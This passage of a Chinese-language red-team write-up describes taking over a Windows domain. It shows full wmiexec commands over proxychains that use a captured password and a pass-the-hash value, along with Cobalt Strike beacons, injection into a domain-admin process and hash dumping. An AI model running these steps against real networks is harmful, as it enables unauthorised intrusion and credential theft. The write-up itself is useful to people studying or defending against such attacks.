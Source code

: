     
    
    execute-assembly /root/桌面/nw/SharpHound.exe -c all

![]()

然后把他下载到本地进行分析：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121920.png)

可以看到当前只有四个域管理员：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121921.png)

由于当前跳板机器是DRAxx，我们就分析  DRAxx 的环境：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121923.png)

可以看到当前机器 DRAxx 可以到达 ERIDANUS.xxxx.xxx 机器，思路就是我们可以通过 ERIDANUS
拿到这台机器的权限，然后在拿到最近的域管！那么我们直接通过之前抓到的 ali.hamzeh 密码去横向 wmi 到 ERIDANUS：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type cmd xxxx/ali.hamzeh:passsword@192.168.54.53 -codec gbk

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121924.png)

然后直接 Powershell 上线到 CobaltStrike：（太卡了这个 socks，又重开了一个 wmi）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121925.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121926.png)

由于当前 ERIDANUS 机器没有 AV 直接提权把：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121927.png)

通过查看当前 ERIDANUS 机器发现的确如 SharpHound 分析那样有一个 ebrahim 域管的进程：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121928.png)

直接注入域管进程上线到 CobaltStrike 吧：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121929.png)

成功拿到域管权限！我为了好区分，绿色 beacon 是 域管！之后直接先抓下域管密码 hash：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210809121930.png)

有了域管的 hash 后，直接可以 PTH 域控：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type powershell -hashes :84d562d8c6f5xxxxxxxxxx xxxxx/ebrahim@192.168.10.10 -codec gbk
